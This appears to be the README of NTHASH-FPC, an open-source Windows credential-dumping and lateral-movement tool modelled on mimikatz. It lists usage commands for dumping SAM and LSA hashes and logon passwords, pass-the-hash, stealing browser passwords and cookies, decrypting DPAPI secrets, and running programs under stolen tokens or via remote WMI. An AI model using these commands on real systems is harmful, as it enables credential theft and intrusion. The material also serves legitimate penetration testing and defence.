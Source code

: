 # NTHASH-FPC <br/>
A tribute to https://github.com/gentilkiwi/mimikatz... <br/>
And generally speaking a tool to handle windows passwords and perform lateral movement. <br/>
https://attack.mitre.org/matrices/enterprise/windows/ is definitely worth reading as well. <br/>

<br/>
Command line as below: <br/>
NTHASH /setntlm [/server:hostname] /user:username /newhash:xxx <br/>
NTHASH /setntlm [/server:hostname] /user:username /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldpwd:xxx /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldhash:xxx /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldpwd:xxx /newhash:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldhash:xxx /newhash:xxx <br/>
NTHASH /getntlmhash /password:password <br/>
NTHASH /getsid /user:username [/server:hostname] <br/>
NTHASH /getusers [/server:hostname] <br/>
NTHASH /getdomains [/server:hostname <br/>
NTHASH /dumpsam <br/>
NTHASH /dumphashes [/offline] <br/>
NTHASH /getsamkey [/offline] <br/>
NTHASH /getsyskey [/offline] <br/>
NTHASH /getlsakeys <br/>
NTHASH /wdigest <br/>
NTHASH /logonpasswords <br/>
NTHASH /pth /user:username /password:myhash /domain:mydomain <br/>
NTHASH /enumcred <br/>
NTHASH /enumcred2 <br/>
NTHASH /enumvault <br/>
NTHASH /chrome [/binary:path_to_database] <br/>
NTHASH /ccookies [/binary:path_to_database] <br/>
NTHASH /firefox [/binary:path_to_database] <br/>
NTHASH /fcookies [/binary:path_to_database] <br/>
NTHASH /bytetostring /input:hexabytes <br/>
NTHASH /stringtobyte /input:string <br/>
NTHASH /filetobyte /binary:filename <br/>
NTHASH /bytetofile /input:hexabytes <br/>   
NTHASH /widestringtobyte /input:string <br/>
NTHASH /base64encodew /input:string <br/>
NTHASH /base64encode /input:string <br/>
NTHASH /base64decode /input:base64string <br/>
NTHASH /cryptunprotectdata /binary:filename <br/>
NTHASH /cryptunprotectdata /input:string <br/>
NTHASH /cryptprotectdata /input:string <br/>
NTHASH /getlsasecret /input:secret <br/>
NTHASH /dpapimk <br/>
NTHASH /cryptunprotectdata /binary:filename <br/>
NTHASH /cryptunprotectdata /input:string <br/>
NTHASH /cryptprotectdata /input:string <br/>
NTHASH /decodeblob /binary:filename [/input:hexabytes] <br/>
NTHASH /decodemk /binary:filename [/input:hexabytes] <br/>
NTHASH /gethash /mode:hashid /input:hexabytes <br/>
NTHASH /gethmac /mode:hashid /input:hexabytes /key:hexabytes <br/>
NTHASH /getcipher /mode:cipherid /input:hexabytes /key:hexabytes <br/>
NTHASH /getlsasecret /input:secret <br/>
NTHASH /dpapi_system <br/>
NTHASH /runasuser /user:username /password:password [/binary: x:\folder\bin.exe] <br/>
NTHASH /runastoken /pid:12345 [/binary: x:\folder\bin.exe] <br/>
NTHASH /runaschild /pid:12345 [/binary: x:\folder\bin.exe] <br/>
NTHASH /runas [/binary: x:\folder\bin.exe] <br/>
NTHASH /runts /user:session_id [/binary: x:\folder\bin.exe] <br/>
NTHASH /enumpriv <br/>
NTHASH /enumproc <br/>
NTHASH /dumpproc /pid:12345 <br/>
NTHASH /runwmi /binary: x:\folder\bin.exe [/server:hostname] <br/>
NTHASH /context <br/>
NTHASH /a_command /verbose <br/>
NTHASH /a_command /system <br/>

<br/>

Commands are commented with more details <a href="https://erwan2212.github.io/NTHASH-FPC/syntax.html">here</A>.

<br/>

todo/news: <br/>
-decrypt sam hashes online (rather than patching lsass) and offline : done in v1.1 <br/>
-deal with new AES cipher used in latest win10 1607 : done in 1.2 <br/>
-enum Lsasrv.dll!LogonSessionList: done in 1.3 <br/>
-enum Wdigest.dll!l_LogSessList: done in 1.3 <br/>
-decrypt dpapi encrypted vault and/or credentials : done in 1.4 <br/>
-patch LogonSessionList and perform pth: done in 1.4 <br/>
-decrypt chrome and firefox passwords: done in 1.4 <br/>
-decrypt firefox and chrome passwords/cookies : done in 1.5 </br>
-dpapimk command to dump all masterkeys : done in 1.6 </br>
-getlsassecret using LsaRetrievePrivateData: done in 1.6</br>
-todo : work out offline decryption of lsasecrets as well as currval and oldval </br>
-todo : work out LsaICryptUnprotectData thru dll injection </br>
-todo : work out masterkey decryption based on sha1 user password: done in 1.7 </br>
-todo : work out credential blob decryption based on decrypted masterkey: done in 1.7 </br>
